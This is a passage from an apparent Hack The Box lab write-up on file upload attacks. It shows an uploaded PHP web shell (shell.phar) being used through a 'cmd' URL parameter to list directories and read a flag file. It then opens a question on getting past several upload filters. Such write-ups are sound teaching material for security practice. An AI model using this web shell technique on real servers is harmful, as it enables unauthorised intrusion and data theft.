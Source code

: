 
<div style="text-align: justify">12. Execute the "ls" command as a URL parameter. The file "flag.txt" is discovered.</div>
```
http://IP:PORT/profile_images/shell.phar?cmd=ls ../../../../
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q5\12.png)

<div style="text-align: justify">13. Read the content of "flag.txt" with the "cat" command as the URL parameter.</div>
```
http://IP:PORT/profile_images/shell.phar?cmd=cat ../../../../flag.txt
```
![image-center](\assets\images\HTB_File_Upload_Attacks\Q5\13.png)

## Type Filters

>**Q. The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"**

<div style="text-align: justify">1. Access the target. As in the previous questions, the target asks us to upload a profile image. Open the developer tools and in the "Inspector" tab expand all to see the source code. There are several "Client-Side Validation" that were bypassed in step three.</div><br>